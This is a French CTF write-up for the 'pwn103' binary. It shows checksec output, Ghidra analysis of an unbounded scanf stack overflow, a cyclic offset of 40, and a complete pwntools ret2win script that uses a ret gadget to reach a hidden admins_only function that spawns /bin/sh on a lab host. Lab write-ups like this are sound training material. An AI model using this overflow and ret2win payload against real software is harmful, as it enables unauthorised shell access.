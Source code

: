 # pwn103 challenge

Objectif : exploiter une vulnérabilité dans un binaire ELF pour rediriger le flux d’exécution vers une fonction cachée admins_only et obtenir un shell.

## Analyse initial

On commence par regarder le binaire avec file et checksec:
    file pwn103-1644300337872.pwn103
    pwn103-1644300337872.pwn103: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3df2200610f5e40aa42eadb73597910054cf4c9f, for GNU/Linux 3.2.0, not stripped

checksec --f  pwn103-1644300337872.pwn103
[*] '/home/kali/Downloads/pwn103-1644300337872.pwn103'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

Pas de canary → stack buffer overflow possible sans protection stack cookie.

Pas de PIE → les adresses dans le binaire sont fixes (très pratique pour du ret2func).

NX activé → on ne peut pas exécuter directement du shellcode sur la stack, donc on va faire du ret2win

## Reverse enginnering

Dans Ghidra, on trouve :

Une fonction general() qui demande une entrée utilisateur avec un scanf("%s", buffer), buffer de 32 octets → vulnérable au stack overflow.

Une fonction admins_only() qui lance /bin/sh.

Dans le main, on voit qu’en choisissant l’option 3, on arrive dans general().

## Exploitation

Trouve l'offset :
    $ cyclic 200
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala...

On envoie ce pattern comme entrée après avoir choisi 3 :

$ gdb ./pwn103
(gdb) run
...
(gdb) i r rsp
rip            0x7fffffffde08 : kaaa

pwndbg> cyclic -l kaaa
40
l'addresse de admins_only :
Dans Ghidra :

    void admins_only(void)
    {
        system("/bin/sh");
    }
Adresse : 0x401554.

Problème du movaps:
En 64-bit, certaines instructions comme movaps exigent que RSP soit aligné à 16 octets au moment du call.
Pour éviter un crash, on ajoute un ROP gadget ret avant admins_only :

    ROPgadget --binary pwn103 | grep "ret"
    0x0000000000401016 : ret
Construction du payload :
    from pwn import *

    p = remote("10.10.xx.xx", 9003)  # connexion distante

    offset = 40
    ret_gadget = 0x401016
    admins_only = 0x401554

    payload = b"A" * offset
    payload += p64(ret_gadget)
    payload += p64(admins_only)

    # Choix menu
    p.sendline(b"3")
    p.sendline(payload)

    p.interactive()
    
## Conclusion

Vulnérabilité : buffer overflow via scanf() sans limite → écrasement RIP.

Protection contournée : NX via ret2win, pas de PIE.

Problème technique : movaps alignment résolu par un gadget ret.

Gain final : exécution de admins_only → /bin/sh → flag.
